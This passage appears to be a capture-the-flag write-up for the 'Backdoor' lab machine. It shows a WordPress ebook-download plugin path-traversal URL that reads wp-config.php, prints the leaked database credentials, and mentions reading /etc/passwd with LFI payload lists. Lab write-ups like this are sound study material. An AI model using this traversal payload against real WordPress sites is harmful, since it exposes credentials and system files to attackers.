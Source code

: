 ### LFI :

the ebook-download plugin LFI sounds promising so i will focus on it : 

by searching the exploit-db , i found this link : https://www.exploit-db.com/exploits/39575

```bash
[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
```

By using it , i’m able to read the wp-config.php file just like the POC suggests, including the database connection creds:

```bash
../../../wp-config.php../../../wp-config.php../../../wp-config.php<?php
/**
 * The base configuration for WordPress
...[snip]...
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

i tried to  use the password "MQYBJSaD#DxG6qbm" with user admin and wordpressuser on the login page "http://backdoor.htb/wp-login.php" but with no luck .

### File System Enumeration 

i will use LFi linux payloads list from github but we get /etc/passwd and /etc/apache2/sites-enabled/000-default.conf which doesn’t returns anything interesting to me .
